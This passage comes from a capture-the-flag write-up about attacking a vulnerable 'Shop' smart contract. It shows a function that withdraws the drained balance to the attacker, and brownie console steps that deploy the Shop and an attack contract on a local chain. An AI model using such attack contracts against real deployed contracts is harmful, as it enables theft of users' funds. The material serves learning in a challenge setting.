 and finally we create a function so we can transfer the money gotten from the exploit, which is stored in the smart contract, to us so we can buy the flag
```
// withdraw the contract's balance to a specified address
    function cashOut(address payable addr) external {
        addr.transfer(address(this).balance);
    }
```

to run this i decided to do it locally using brownie as i could not find any resources on how to deploy it online at that moment and i was running out of time until my parents told me to go to sleep

to do this i installed brownie in a python venv so it wouldn't mess up my system (hopefully) 
i then, in an empty folder ran `brownie init` and it created a brownie project, into which i placed the Shop and Attack contracts so the folder structure looked like this

![file structure](fileStructure.png)

then i could run `brownie compile` to compile all of the smart contracts into the bytecode and abi and so brownie would know that those contracts exist

then i could run `brownie console` to actually interact with the smart contracts

first i created an instance of the shop:
```
>>> shop = accounts[0].deploy(Shop)
Transaction sent: 0x42a87cd2e7d0291ec1460bbbeca82a5dfea848f18daf2fb0e928a8503f578aec
  Gas price: 0.0 gwei   Gas limit: 12000000   Nonce: 0
  Shop.constructor confirmed   Block: 1   Gas used: 376955 (3.14%)
  Shop deployed at: 0x3194cBDC3dbcd3E11a07892e7bA5c3394048Cc87
```
i could then interact with it, using all of the functions, like to buy 1 of item 0:
```
>>> shop.buy(0, 1, {'from': accounts[0], 'value': Wei("5 ether")})
Transaction sent: 0x20699d69862c149b571ddd9e352dac1fee52c5870ad6f1071f1ebafb2435ba23
  Gas price: 0.0 gwei   Gas limit: 12000000   Nonce: 1
  Shop.buy confirmed   Block: 2   Gas used: 42490 (0.35%)
<Transaction '0x20699d69862c149b571ddd9e352dac1fee52c5870ad6f1071f1ebafb2435ba23'>
```

i then created the attack contract using the address of the shop: `0x3194cBDC3dbcd3E11a07892e7bA5c3394048Cc87`
```
>>> attack = accounts[0].deploy(attack, "0x3194cBDC3dbcd3E11a07892e7bA5c3394048Cc87")
Transaction sent: 0x425a76e58d24ac8ad77277f3dac367d2ef7d4793dc304877a90e7f304cc2309e
  Gas price: 0.0 gwei   Gas limit: 12000000   Nonce: 2
  attack.constructor confirmed   Block: 3   Gas used: 217352 (1.81%)
  attack deployed at: 0xE7eD6747FaC5360f88a2EFC03E00d25789F69291
```
